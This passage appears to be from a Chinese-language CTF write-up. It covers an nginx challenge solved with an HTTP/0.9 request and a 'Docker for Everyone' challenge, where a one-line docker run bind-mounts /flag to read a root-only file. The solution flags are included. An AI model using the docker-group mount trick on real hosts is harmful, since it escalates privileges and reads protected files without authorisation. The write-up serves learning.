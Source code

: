 ![](img/image-20231030174919119.png)

![](img/image-20231030174953331.png)

`flag{great backward compatibility of nginx, R1ght?}`

看起来是后向兼容的设计？没响应头部的数据只有 body 的了。

查了下，其实就是 **HTTP/0.9** 的规范了

那确实直接 `GET /1\r\n\r\n` 就行了，哈哈

![](img/image-20231030175122530.png)

See also: [MDN: HTTP 的发展](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Basics_of_HTTP/Evolution_of_HTTP)



## Docker for Everyone

经典日机器/提权/容器逃逸的方法了，哈哈

```bash
alpine:~$ docker run -v /flag:/flag alpine:latest cat /flag
flag{u5e_r00t1ess_conta1ner_8ed24f192c_plz!}
```
